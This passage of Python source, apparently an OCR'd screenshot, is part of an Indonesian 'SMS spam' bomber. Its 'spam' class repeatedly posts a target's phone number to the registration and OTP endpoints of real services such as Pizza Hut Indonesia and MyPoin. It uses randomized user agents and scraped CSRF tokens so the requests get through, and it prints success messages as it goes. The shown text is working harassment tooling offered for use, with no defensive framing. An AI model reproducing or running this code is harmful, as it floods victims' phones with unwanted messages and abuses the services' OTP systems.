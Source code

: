       loding()
      spam.oyo(nom)
      loding()
#     spam.jenius(nom)
#     loding()
      spam.vadershop(nom)
      loding()
      print (f"{ken}[{kun}•{ken}] {kan}Proses selesai abang jago")
      sys.exit()
  except ru.ConnectionError:print (f"{ken}[{kun}•{ken}]{kan} Koneksi Error")
  except KeyboardInterrupt:print (f"{ken}[{kun}•{ken}]{kun} Program dihentikan oleh abang jago")
import itertools
kuni  = '\x1b[33m'
def animate():
    for c in itertools.cycle(['|', '/', '-', '\\']):
        if done:
            break
        sys.stdout.write(f'\r{kun}[{kan}•{kun}] {kuni}Loading {kun}' + c+"\n")
        sys.stdout.flush()
        time.sleep(0.1)
class spam:
 def piza(nom):
    hd = {
    'user-agent': ua.random ,
    'referer': 'https://www.phd.co.id/register',
    'Host': 'api-prod.diqit.io',
    'content-type':'application/json;charset=UTF-8',
    }
    dat = {'phone':nom}
    for x in range(6):
     sia = ru.post("https://api-prod.diqit.io/customer/v1/customer/register", headers=hd, json=dat)
    if 'error' in sia:print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({im}{kun}SMS{kan}) {ken}Pizzahut{kun} Gagal abang jago")
    else:print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({im}{kun}SMS{kan}) {ken}Pizzahut{kan} OK")
 def mypoin(nom):
     url = 'https://mypoin.id/register/validate-phone-number'
     otp = 'https://mypoin.id/register/request-otp'
     r  = ru.Session()
     uat = {"user-agent": "Mozilla/5.0 (Linux; Android 9; vivo 1902) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.136 Mobile Safari/537.36"}
     uatp = {"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3","accept-encoding": "gzip, deflate, br","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7","content-length": "102","content-type": "application/x-www-form-urlencoded; charset=UTF-8","origin": "https://mypoin.id","referer": "https://mypoin.id/register/validate-phone-number","sec-fetch-mode": "cors","sec-fetch-site": "same-origin","user-agent": "Mozilla/5.0 (Linux; Android 9; vivo 1902) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.136 Mobile Safari/537.36","x-requested-with": "XMLHttpRequest"}
     a = r.get(url,headers=uat).text
     b = bs(a,'html.parser')
     c = b.find("input",attrs={"type":"hidden","name":"csrfmiddlewaretoken"})
     e = r.post(otp,headers=uatp,data={"phone":"62"+nom,"csrfmiddlewaretoken": c["value"]}).text
     if e == '{"status": "ok"}':
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({im}{kun}SMS{kan}) {ken}MyPoin{kan} OK")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({im}{kun}SMS{kan}) {ken}MyPoin{kun} Gagal abang jago")
 def map(nom):
    hd = {
    "Connection": "keep-alive",
    "user-agent": ua.random ,
    }